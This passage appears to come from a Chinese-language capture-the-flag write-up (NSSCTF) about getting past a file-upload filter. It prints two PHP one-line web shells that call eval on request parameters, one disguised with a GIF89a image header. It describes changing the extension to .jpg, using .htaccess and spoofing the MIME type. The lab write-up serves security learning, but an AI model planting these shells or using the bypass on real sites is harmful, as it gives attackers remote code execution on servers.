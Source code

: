 ```
<?php @eval($_POST['shell']);?>
```

于是尝试

```
GIF89a
<script language="php">eval($_REQUEST['cmd']);</script>
```

同时将后缀改为jpg成功上传

![image-20250814175608344](./NSSCTF-5.assets/image-20250814175608344.png)

发现，将上传的文件放到了upload目录下的一个子目录，导致我们不能使用.user.ini文件，而是要使用.htaccess配置文件。

![image-20250814180051765](./NSSCTF-5.assets/image-20250814180051765.png)

不能直接上传，把MIME类型修改为image/jpeg试一下
